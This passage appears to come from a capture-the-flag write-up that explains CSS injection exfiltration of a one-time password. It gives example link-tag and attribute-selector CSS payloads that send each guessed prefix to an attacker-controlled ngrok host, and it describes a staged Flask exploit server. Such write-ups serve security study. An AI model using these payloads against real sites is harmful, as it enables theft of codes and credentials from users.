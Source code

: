 When the browser encounters `link` elements, it will make requests to each one's `src` URL to load the style. Once a response is received, it will **immediately** apply the style to the page. So, we can craft our server such that one of the URL's responds immediately, but the other URL's wait to response. The first CSS that we respond with will exfiltrate the first character, and once we receive the character, we can allow one of our waiting URL's to respond with CSS that will exfiltrate the second character. We can proceed like this until we exfiltrate all of the characters.

Here is an example of what such a payload would look like:

```html
<link rel="stylesheet" href="https://...ngrok.com/style/0">
<link rel="stylesheet" href="https://...ngrok.com/style/1">
<link rel="stylesheet" href="https://...ngrok.com/style/2">
<link rel="stylesheet" href="https://...ngrok.com/style/3">
<link rel="stylesheet" href="https://...ngrok.com/style/4">
<link rel="stylesheet" href="https://...ngrok.com/style/5">
<link rel="stylesheet" href="https://...ngrok.com/style/6">
<link rel="stylesheet" href="https://...ngrok.com/style/7">
<link rel="stylesheet" href="https://...ngrok.com/style/8">
<link rel="stylesheet" href="https://...ngrok.com/style/9">
<link rel="stylesheet" href="https://...ngrok.com/style/10">
<link rel="stylesheet" href="https://...ngrok.com/style/11">
```

We could have `/style/0` respond first and the others wait. `/style/0` could return:

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the first character of the OTP was `b`. Our server would then receive a request from the browser to `https://...ngrok.com/capture/b`. Our server could then use this character and have `https://...ngrok.com/style/1` finally respond with:

```css
input[value^="ba"] { background-image: url("https://...ngrok.com/capture/ba") }
input[value^="bb"] { background-image: url("https://...ngrok.com/capture/bb") }
...
input[value^="bZ"] { background-image: url("https://...ngrok.com/capture/bZ") }
```

If the second character was `Z`, our server would receive a request to `https://...ngrok.com/capture/bZ`, from which it could have `https://...ngrok.com/style/2` respond with CSS to exfiltrate the next character, and so on.

Eventually, this will exfiltrate the entire OTP, all with one payload!

### Crafting the Exploit Server

To implement a server with such a behavior, I used Flask's default multithreading behavior. Flask spawns a thread for each request, so I had each `style` endpoint wait on a condition variable. When a character was exfiltrated via a request to the `capture` endpoint, the server would notify the condition variable for the next `style` endpoint to respond, which would use the newly exfiltrated character to craft its response.
